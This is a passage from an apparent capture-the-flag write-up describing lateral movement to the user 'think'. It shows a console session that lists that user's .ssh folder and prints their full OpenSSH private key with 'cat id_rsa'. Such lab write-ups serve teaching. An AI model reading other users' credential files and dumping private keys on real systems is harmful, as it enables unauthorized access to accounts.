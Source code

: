 ### diego to think

Getting a shell as think is straight forward as we can read files in their home directory. This lets us see that they have a `.ssh` folder and in it an `id_rsa` file that we can also read

```console
pwd
/home/think/.ssh
ls -la
total 20
drwxr-xr-x 2 think think    4096 Jun 21  2023 .
drwxr-x--- 5 think internal 4096 Jan 12  2024 ..
-rwxr-xr-x 1 think think     572 Jun 21  2023 authorized_keys
-rwxr-xr-x 1 think think    2602 Jun 21  2023 id_rsa
-rwxr-xr-x 1 think think     572 Jun 21  2023 id_rsa.pub
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
